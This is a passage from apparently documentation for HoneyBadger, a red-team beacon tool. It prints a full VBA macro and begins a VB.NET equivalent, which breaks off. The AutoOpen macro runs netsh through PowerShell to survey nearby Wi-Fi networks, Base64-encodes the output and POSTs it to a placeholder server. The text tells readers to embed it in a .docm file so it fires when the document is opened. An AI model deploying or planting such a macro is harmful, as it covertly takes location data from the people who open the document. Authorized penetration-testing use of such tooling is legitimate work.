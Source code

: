 After clicking through all of the prompts, the page will load. Reload the HoneyBadger beacons page to see that a new beacon is added:
![](HoneyBadger_files/hb_demo_jsbeacon.png)


### 2. VBA Macro ###
The VBA macro code are not included as comments in the generated popup for the sake of brevity. The VBA macro functionality is explained here. In short, the VBA macro imitates the powershell script.

    Sub AutoOpen()
        ' Create an instance of a WSH shell for system commands
        Set objWSH = CreateObject("WScript.Shell")

        ' Run the netsh command via powershell for automatic wireless survey
        wifi = objWSH.Exec("powershell netsh wlan show networks mode=bssid | findstr 'SSID Signal Channel'").StdOut.ReadAll
        
        ' Open a file handle to a temporary file and write netsh results to file
        Open Environ("temp") & "\wifidat.txt" For Output As #1
            Print #1, wifi
        Close #1
        
        ' Read contents in from temp file, fixing encoding issues with the web request
        wifi = objWSH.Exec("powershell Get-Content %TEMP%\wifidat.txt -Encoding UTF8 -Raw").StdOut.ReadAll

        ' Remove the temporary file
        Kill Environ("temp") & "\wifidat.txt"

        ' Base64-encode the netsh data for sending.
        wifienc = objWSH.Exec("powershell -Command ""& {[System.Convert]::ToBase64String([System.Text.Encoding]::UTF8.GetBytes('" & wifi & "'))}""").StdOut.ReadAll

        ' Create a web object
        Set objHTTP = CreateObject("MSXML2.ServerXMLHTTP")

        ' Open the connection via POST request to the HoneyBadger server
        objHTTP.Open "POST", "http://<SERVER>:5000/api/beacon/aedc4c63-8d13-4a22-81c5-d52d32293867/VBA"

        ' Set request headers to make the server aware of the POST form data
        objHTTP.setRequestHeader "Content-Type", "application/x-www-form-urlencoded"

        ' Send the properly formatted POST form to the server
        objHTTP.Send "os=windows&data=" & wifienc
    End Sub

To use the macro code, simply open a document, paste this macro inside, and save as a .docm file. Upon opening and accepting to run code, the macro will be triggered and the beacon will be added.


### 3. VB.NET Script ###
The VB.NET code is identical in function and near identical in structure to the VBA macro. Changes needed to be made to make it a valid VB.NET script, for version difference issues between VB.NET and VBA. Like the macro, the VB.NET functionality is explained here:

    Imports System.IO
    
    Module HoneyBadgerBeacon
        Sub Main()
            ' Create and initialize a new WSH shell object
            Dim objWSH As New Object
            objWSH = CreateObject("WScript.Shell")
